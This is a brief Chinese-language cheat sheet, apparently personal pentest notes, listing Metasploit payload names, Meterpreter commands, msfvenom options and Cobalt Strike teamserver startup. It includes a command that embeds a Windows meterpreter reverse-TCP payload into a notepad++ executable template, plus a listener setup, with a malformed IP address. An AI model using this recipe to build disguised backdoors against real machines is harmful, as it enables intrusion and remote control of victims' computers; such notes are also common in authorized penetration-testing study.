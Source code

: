 > 名称命名规则

```
shell_find_tag		在一个已建立的连接上创建一个新shell
shell_reverse_tcp	反向连接到攻击者主机并创建一个shell
bind_tcp			监听一个TCP连接
reverse_tcp			反向建立tcp连接
reverse_http		反向建立http连接
add_user			创建一个新用户并添加到管理组
tcp_allports		在所有可能的端口进行测试
```

## Meterpreter

```
background			放置后台
sessions			会话列表
getuid				获取账户信息

```

## msfvenom-payload木马

```
-l  列出所有可用的payload,编码器,空指令……
    payloads, encoders, nops, platforms, archs, encrypt, formats, all
    查看所有payloads: msfvenom -l payloads
    查看所有encoders：
-p  指定要使用的msf的payload,也可以使用自定义payload,几乎是支持全平台的
-a	选择架构平台 x86 | x64 | x86_64
-f  指定payload输出的文件类型,--help-formats,可查看支持的所有输出格式
-e  指定要使用那种编码器
-i  指定编码的次数,如果使用编码器
-b  指定坏字符,比如空字符截断问题,等等……
-x  使用一个自定义可执行程序模板,并将payload嵌入其中
-k  当模板被执行时,payload自动分离并注入到新的进程中,一般和-x选项一并使用
-o  指定创建好的payload的存放位置

msfvenom -p windows/meterpreter/reverse_tcp lhost=192.1698.0.0 lport=4444 -x npp.exe -f exe > xxx.exe

use exploit/multi/handle
handle -H 0.0.0.0 -P 4444 -p windows/meterpreter/reverse_tcp
```

## CS（Cobalt Strike）

> 关键文件—放入linux，赋予X权限

```
teamserver
TeamServerImage

./teamserver ##启动
```
